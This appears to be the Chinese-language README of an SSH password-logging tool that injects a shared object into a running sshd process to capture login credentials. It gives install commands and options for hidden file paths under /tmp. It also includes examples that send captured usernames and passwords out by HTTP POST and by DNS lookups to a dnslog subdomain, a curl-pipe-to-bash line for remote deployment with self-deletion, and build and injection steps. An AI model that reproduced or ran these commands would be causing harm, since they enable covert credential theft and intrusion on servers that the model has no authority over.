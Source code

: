 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。

需要关闭selinux

# how to use

## auto installer
密码记录器一键安装，仅暂时支持x64

直接执行命令
```
bash install.sh
```

直接运行后ssh密码登录，记录地址为/tmp/.password.txt，默认so地址为/tmp/hello.so


其他参数：
```
    -e   修改so文件的路径，默认/tmp/hello.so
    -o   修改注入器的路径，默认/tmp/.i.
    -m   修改mode默认值为0，输出到文件，默认记录地址为/tmp/.password.txt ，如果值为1，则会改为命令行模式
    -p   修改payload，默认值为/tmp/.password.txt，如果mode值为1，则会使用snsprintf来格式化命令并且输出，请确保字符串中包含两个%s，用于格式化用户名和密码
    -d   自动删除，设置为anyone则抓到密码后立刻删除，否则则抓取到设置的指定用户名后删除
```
## 例子

https发送密码
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns发送密码并且自动删除
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

远程快速自动部署并自动删除
```
curl -L https://github.com/9bie/sshdHooker/releases/download/release/sshdHooker.sh | bash -s -- -d anyone
```

## debug

执行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c utils.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/.password.txt

# todo

 - 增加x86/arm支持
 - 自定义so路径
 - dns/icmp/https发送
 - bypass SELINUX